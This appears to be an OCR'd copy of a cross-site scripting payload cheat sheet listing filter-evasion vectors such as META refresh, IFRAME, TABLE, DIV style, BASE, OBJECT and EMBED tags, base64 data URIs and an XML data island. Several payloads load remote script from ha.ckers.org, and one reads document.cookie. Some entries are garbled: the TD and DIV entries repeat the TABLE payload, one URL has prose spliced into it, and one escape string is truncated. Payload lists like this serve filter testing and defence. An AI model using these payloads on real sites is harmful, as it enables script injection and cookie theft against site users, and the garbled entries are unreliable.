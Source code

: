 ```<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

# META
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">

# META using data
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

# META
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">

# IFRAME
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>

# IFRAME Event based
```<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>```

# FRAME
```<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>```

# TABLE
```<TABLE BACKGROUND="javascript:alert('XSS')">```

# TD
```<TABLE BACKGROUND="javascript:alert('XSS')">```

# DIV background-image
```<TABLE BACKGROUND="javascript:alert('XSS')">```

# DIV background-image with unicoded XSS exploit
```<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.```

# DIV background-image plus extra characters
```<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">```

# DIV expression
```<DIV STYLE="width: expression(alert('XSS'));">```


# "Downlevel-hidden block"
```<!--[if gte IE 4]> <SCRIPT>alert('XSS');</SCRIPT> <![endif]-->```

# BASE tag
```<BASE HREF="javascript:alert('XSS');//">```

# Object tag
```<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>```

# Using an EMBED tag you can embed a Flash movie that contains XSS
```<EMBED SRC="http://ha.ckers.Using an EMBED tag you can embed a Flash movie that contains XSS. Click here for a demo. If you add the attributes allowScriptAccess="never" and allownetworking="internal" it can mitigate this risk (thank you to Jonathan Vanasco for the info).:org/xss.swf" AllowScriptAccess="always"></EMBED>```

# You can EMBED SVG which can contain your XSS vector
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

# Using ActionScript inside flash can obfuscate your XSS vector
# N/A

# XML data island with CDATA obfuscation
<XML ID="xss"><I><B><IMG SRC="javascript:alert('XSS')"></B></I></XML><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>

```